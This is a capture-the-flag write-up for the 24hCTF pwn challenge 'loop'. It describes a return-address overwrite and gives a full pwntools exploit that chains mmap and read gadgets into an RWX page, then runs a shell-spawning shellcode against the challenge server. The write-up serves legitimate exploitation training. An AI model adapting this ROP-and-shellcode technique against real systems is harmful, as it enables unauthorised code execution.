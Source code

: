 # 24hCTF - pwn - loop

Categories: pwn rop

The `loop` program is hand-written in assembly. It takes (2) inputs:
the first of 33 bytes, the second of 512 bytes. It then prints the
first input 33 times; in a loop.


## Solution

The second input overwrites the function's return address and allow
us to take control of the execution. One thing I noticed is that,
before taking any inputs, `mmap` is called, but its value is never
used. With that observation, I started working on a ROP chain composed
of two (2) operations:

1. create a rwx memory page by calling `mmap`;
2. write to that page using `read`;
3. redirect execution to the page.

Below, the exploit.

```
# ==================================================================== #

from pwn import *

context.binary = elf = ELF(sys.argv[1])

# -------------------------------------------------------------------- #

P = lambda v : p32(v) if 32 == context.bits else p64(v)


sc = asm(shellcraft.amd64.linux.sh())

PAD = 40
BUF = 0x300000

pl = b''
#pl += P(0x401000)

# mmap()
# rdi: 0x1000
# rsi: 0x1000
# rdx: PROT_WRITE|PROT_READ|PROT_EXEC = 7
# r10: 0x22
# finalize 0x40102a

#0x000000000040111f: pop rdi; ret;
pl += P(0x40111f)
pl += P(BUF) # rdi
#0x0000000000401121: pop rsi; ret;
pl += P(0x401121)
pl += P(0x1000) # rsi
#0x0000000000401123: pop rdx; ret;
pl += P(0x401123)
pl += P(7)
# mmap()
pl += P(0x40102a)

# loop again
pl += (b'y'*PAD)

# read()
# rdi: 0
# rsi: 0x1000
# rdx: len(sc)
#0x000000000040111f: pop rdi; ret;
pl2 = P(0x40111f)
pl2 += P(0) # stdin
#0x0000000000401121: pop rsi; ret;
pl2 += P(0x401121)
pl2 += P(BUF)
#0x0000000000401123: pop rdx; ret;
pl2 += P(0x401123)
pl2 += P(len(sc))
# read()
pl2 += P(0x4010c1)
#pl2 += P(0x40109a)

# ret
# 0x0000000000401046: ret;
pl2 += P(0x401046)
pl2 += P(BUF)

# -------------------------------------------------------------------- #

io = remote('0.cloud.chals.io', 34997)

io.send(b'1'*0x21)
io.send((b'y'*PAD) + pl)
io.recvuntil('1'*0x21)

io.send(b'2'*0x21)
io.send((b'y'*PAD) + pl2)
io.recvuntil('2'*0x21)

io.send(sc)

io.interactive()

# ==================================================================== #
```
